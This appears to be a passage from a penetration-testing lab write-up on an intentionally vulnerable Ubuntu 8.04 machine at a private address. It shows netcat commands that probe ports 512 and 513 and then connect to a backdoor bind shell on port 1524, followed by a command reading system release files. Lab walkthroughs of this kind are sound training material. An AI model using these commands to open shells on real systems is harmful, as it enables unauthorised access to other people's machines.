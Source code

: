 - Check the ports without service banner

```bash
nc -nv 10.2.20.205 512
nc -nv 10.2.20.205 513
# No banners
```

```bash
nc -nv 10.2.20.205 1524

# provides with a shell on the target system!
cat /etc/*release
    DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

📌 There is a BIND SHELL Listener on the port `1524`

![nc -nc 10.2.20.205 1524](4-exploitationassets/image-20230424142033017.png)

- Access the web server with a browser
  - `http://10.2.20.205/`
  - There are intentional vulnerable applications present

![](4-exploitationassets/image-20230424142428234.png)
